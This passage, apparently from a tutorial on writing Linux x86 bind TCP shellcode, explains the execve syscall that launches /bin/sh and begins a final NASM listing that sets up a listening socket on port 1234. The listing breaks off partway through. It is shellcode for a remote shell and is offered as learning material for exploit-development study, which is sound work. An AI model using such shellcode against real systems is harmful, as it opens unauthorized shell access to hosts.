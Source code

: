 ### Execve(2)
- This will execute the `/bin/sh` program on the remote machine
 The usage are detailed in: https://man7.org/linux/man-pages/man2/execve.2.html
- Synopsis: `execve(const char *pathname, char *const argv[], char *const envp[])`
- Syscall arguments:
  - ebx: pathname   = 'bin//sh' address in stack
  - ecx: argv       = 0x0
  - ecx: envp       = 0x0

 NASM Code:
 ```nasm {linenostart=75}
  xor ebx, ebx
  mul ebx
  push ebx
  push 0x68732f2f
  push 0x6e69622f
  mov ebx, esp
  mov al, EXECVE
  int 0x80
 ```

## Final NASM Code
```nasm
; Purpose: Bind TCP shellcode

global _start

section .text
  ; settings
  PORT        equ 0xd204        ; default 1234

  ; syscall kernel opcodes found in /usr/include/asm/unistd_32.h
  SOCKET      equ 0x167
  BIND        equ 0x169
  LISTEN      equ 0x16b
  ACCEPT      equ 0x16c
  DUP         equ 0x3f
  EXECVE      equ 0xb

  ; argument constants
  AF_INET     equ 0x2
  SOCK_STREAM equ 0x1

_start:
  ; clear registers
  xor ebx, ebx
  xor ecx, ecx
  mul ecx

  ; socket(AF_INET, SOCK_STREAM, IPPROTO_IP)
  mov ax, SOCKET
  mov bl, AF_INET
  mov cl, SOCK_STREAM
  mov dl, 0x6
  int 0x80                            ; syscall socket(2)

  ; bind(sockfd, &sockaddr, 16)
  ; sockaddr = {AF_INET; PORT}
  xchg edi, eax                       ; edi = sockfd
  xor ecx, ecx                        ; clear ecx
  mul ecx                             ; clear eax and edx
  push ecx                            ; 0x0
  push ecx                            ; 0x0
```